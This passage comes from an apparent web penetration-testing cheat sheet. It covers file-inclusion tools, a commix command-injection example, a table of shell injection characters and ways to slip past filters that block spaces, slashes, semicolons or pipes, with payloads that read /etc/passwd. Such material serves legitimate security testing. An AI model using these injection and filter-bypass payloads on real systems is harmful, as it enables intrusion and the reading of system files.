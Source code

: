 **TOOLS**

 - https://github.com/mzfr/liffy
 - https://github.com/D35m0nd142/LFISuite
 - https://github.com/OsandaMalith/LFiFreak

#### 4.7.11.2 Testing for Remote File Inclusion

 - see: [LFI](#47111-testing-for-local-file-inclusion)

### 4.7.12 Testing for Command Injection (WSTG-INPV-12)

 - `commix --url="https://pentest-experts.com/ping.php?ip=INJECT_HERE"`

**Injection characters**

```
CHAR   URL ENC.    DESCRIPTION
-----  ----------  -------------------------[Table of Contents](#table-of-contents)

---
 ;     %3b         (Concatination of commands)
 \n    %0a         (Newline)
 &     %26         (Background)
 |     %7c         (Pipe)
 &&    %26%26      (Logical AND)
 ||    %7c%7c      (Logical OR)
 ``    %60%60      (Subshell)
 $()   %24%28%29   (Subshell)
```

**Bypassing space blacklist**

 - Encoding the space as `\x20`
 - Using a tab (`%09`)
 - Using `${IFS}` - a Linux environment variable containing the CLI argument speparator (usually the space)
 - Using the input redirection operator - e.g.: `cat</etc/passwd`
 - Using the bash brace expantion syntax - e.g.: `{cat,/etc/passwd}`

**Bypassing `\` and `/` blacklisting**

 - Using `${PATH:0:1}` in Linux (Substring)
 - Using `$(tr '!-}' '"-~'<<<[)` in Linux (Character shifting)
 - Using `$env:HOMEPATH[0]` in Windows Powershell
 - Using `%HOMEPATH:~6,-5%` in Windows CMD (`-5%` is the length of the username)

**Bypassing `;` blacklisting**

 - Using `${LS_COLORS:10:1}` in Linux (Substring)
 - Using `$(tr '!-}' '"-~'<<<:)` in Linux (Character shifting)

**Bypassing `|` blacklisting**

 - Using `<<<` and a subshell in Linux - e.g.: `grep${IFS}root<<<$(cat${IFS}${PATH:0:1}etc${PATH:0:1}passwd)`

 **Bypassing command blacklists**
